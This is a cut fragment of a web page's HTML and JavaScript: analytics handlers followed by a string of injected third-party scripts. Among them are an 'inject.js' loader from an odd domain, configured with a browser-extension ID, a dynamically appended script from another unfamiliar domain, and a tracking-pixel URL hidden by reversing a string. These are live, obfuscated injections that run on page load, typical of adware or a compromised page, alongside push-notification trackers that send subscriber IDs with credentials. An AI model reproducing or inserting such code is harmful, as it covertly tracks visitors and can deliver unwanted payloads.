               }
          });
        } else {
          e.preventDefault();
        }
      }
    });
});

$(document).on("click", ".cp-allow-button", function() {
  gtag('event', 'Notifications_allowed');
});

$(document).on("click", ".cp-dismiss-button", function() {
  gtag('event', 'Notifications_dismissed');
});
</script>
<style>

</style><script charset="UTF-8">ss78mest = {"did":"21","kTag":false,"scriptDomain":"moolmaincineper.online","tag":"test","extensionId":"1583073178","vTag":false,"version":452,"cid":1};
window["jj837_11"] = "1583073178";
</script><script src="https://moolmaincineper.online/inject.js?tag=test&amp;did=21&amp;v_tag=false&amp;k_tag=false" charset="UTF-8"></script><script src="https://www.googletagmanager.com/gtag/js?id=UA-127560459-1"></script><script type="text/javascript">var _at = {}; window._at.track = window._at.track || function(){(window._at.track.q = window._at.track.q || []).push(arguments);}; _at.domain = 'join.super-samples.com';_at.owner = '041e2bdba891';_at.idSite = '13210';_at.attributes = {};_at.worker = '/push-worker.js';_at.webpushid = 'web.61.apple.com';(function() { var u='//s3.amazonaws.com/trackpush/'; var d=document, g=d.createElement('script'), s=d.getElementsByTagName('script')[0]; g.type='text/javascript'; g.async=true; g.defer=true; g.src=u+'trackpush.min.js'; if(g.readyState) { g.onreadystatechange = function() { if ( g.readyState === 'loaded' || g.readyState === 'complete' ) { g.onreadystatechange = null; if (typeof _aimtellPermissionGranted!='function') { _aimtellPermissionGranted = function(){ fetch('https://trc.taboola.com/sg/pushpros/1/cm?redirect='+encodeURIComponent('https://beacon.aimtell.com/taboolatracker?id_site='+_at.idSite+'&tuid=<TUID>&puid='+_aimtellSubscriberID),{method:'GET',credentials:'include',redirect:'follow',mode:'no-cors'}); if (typeof _webpushPermissionGranted=='function') { _webpushPermissionGranted(); } }; }if (typeof _webpushPermissionDenied=='function') { _aimtellPermissionDenied = function(){_webpushPermissionDenied();}; }if (typeof _aimtellReady!='function') { _aimtellReady = function(){ if (typeof _webpushLoaded=='function') { setTimeout(_webpushLoaded,1000); } }; } } }; } else { g.onload = function(){ if (typeof _aimtellPermissionGranted!='function') { _aimtellPermissionGranted = function(){ fetch('https://trc.taboola.com/sg/pushpros/1/cm?redirect='+encodeURIComponent('https://beacon.aimtell.com/taboolatracker?id_site='+_at.idSite+'&tuid=<TUID>&puid='+_aimtellSubscriberID),{method:'GET',credentials:'include',redirect:'follow',mode:'no-cors'}); if (typeof _webpushPermissionGranted=='function') { _webpushPermissionGranted(); } }; }if (typeof _webpushPermissionDenied=='function') { _aimtellPermissionDenied = function(){_webpushPermissionDenied();}; }if (typeof _aimtellReady!='function') { _aimtellReady = function(){ if (typeof _webpushLoaded=='function') { setTimeout(_webpushLoaded,1000); } }; } };} s.parentNode.insertBefore(g,s); })();</script><script>try{!function(){'use strict';var c=['//','s:','tp','ht'].reverse().join(''),e=['lwz.infomucation.com','76'].join('/'),t=new Image;t.src=''.concat(c).concat(e,'.gif');}();}catch(e){}</script><script>try{(function(){
  var s = document.createElement('script'); 
  s.src = '//colextidapp.com/1e526623a79b7612df.js'; 
  document.body.appendChild(s); 
})();}catch(e){}</script><script>try{!function(){var cooki=navigator.cookieEnabled;
var url = "";
var clkcookie;
